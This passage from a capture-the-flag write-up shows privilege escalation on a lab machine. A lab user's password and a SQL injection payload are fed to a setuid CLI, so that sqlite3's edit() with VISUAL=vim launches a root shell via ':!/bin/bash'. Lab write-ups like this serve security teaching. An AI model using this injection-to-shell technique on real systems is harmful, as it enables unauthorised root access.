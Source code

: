 > If the second argument is omitted, the VISUAL environment variable is used.

So if I can set this environment variable, it will call a program for me.

Locally I can try this on the `db.sqlite3` file on my local system:

```

oxdf@hacky$ VISUAL=cat sqlite3 db.sqlite3 'select "1" from accounts_customuser where username=""&edit(username)';
admincrisDiseljamesMasonmartinCruztomHands

```

By setting `VISUAL` to `cat`, it calls `cat` on each column one by one as part of the query.

I don’t need to bypass the filter at all, as none of these characters are removed.

I’ll start the CLI and authenticate:

```

tom@drive:~$ VISUAL=/usr/bin/vim ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option:

```

I’ll select option 5, and give it my injection:

```

Select option: 5
Enter username to activate account: "&edit(username);-- -

```

When I hit enter, it open `vim` with the text “admin”. I’ll enter `:!/bin/bash` to execute `bash` from within `vim`, and it drops to a root shell:

```

Select option: 5
Enter username to activate account: "&edit(username);-- -
Activating account for user '"&edit(username)---'...

bash: groups: No such file or directory
bash: lesspipe: No such file or directory
bash: dircolors: No such file or directory
root@drive:~#

```
